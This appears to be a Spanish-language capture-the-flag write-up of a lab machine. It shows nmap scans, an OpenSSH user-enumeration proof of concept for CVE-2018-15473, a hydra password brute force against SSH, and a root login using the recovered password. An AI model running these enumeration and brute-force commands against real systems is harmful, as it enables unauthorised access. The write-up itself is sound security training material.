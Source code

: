 #ssh #hydra

![](../../../Images/Pasted%20image%2020241008071626.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH**.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

## SSH (22 TCP Port)

Investigando el servicio vemos que es una versión antigua que tiene una vulnerabilidad numerada como [CVE-2018-15473](https://nvd.nist.gov/vuln/detail/cve-2018-15473) el cual nos permite una enumeración de usuarios sobre el servicio **SSH**. Con este [PoC](https://github.com/Sait-Nuri/CVE-2018-15473) y una lista de usuarios podemos conseguir que usuarios existen en el sistema

```
> python2 CVE-2018-15473.py  172.17.0.2 -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt

/home/rh4ps00dy/.local/lib/python2.7/site-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] root is a valid username
[-] admin is an invalid username
[-] test is an invalid username
[-] guest is an invalid username
[-] info is an invalid username
[-] adm is an invalid username
[-] mysql is an invalid username
[-] user is an invalid username
[-] administrator is an invalid username
[-] oracle is an invalid username
[-] ftp is an invalid username
[-] pi is an invalid username
[-] puppet is an invalid username
[-] ansible is an invalid username
[-] ec2-user is an invalid username
[-] vagrant is an invalid username
[-] azureuser is an invalid username
Valid Users:
root
```

Desucribrmos que el usuario root está habilitado en el servicio **SSH**. Ahora, con el nombre de usuario encontrado podemos hacer fuerza bruta contra el servicio **SSH** con **hydra**.

```
> hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 12:54:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 12:54:31 
```

Conseguimos acceder al sistema mediante SSH directament con el usuario ``root`` y todos los privilegios del sistema.

```
> ssh root@172.17.0.2

The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@347cd6f2e506:~# whoami
root
```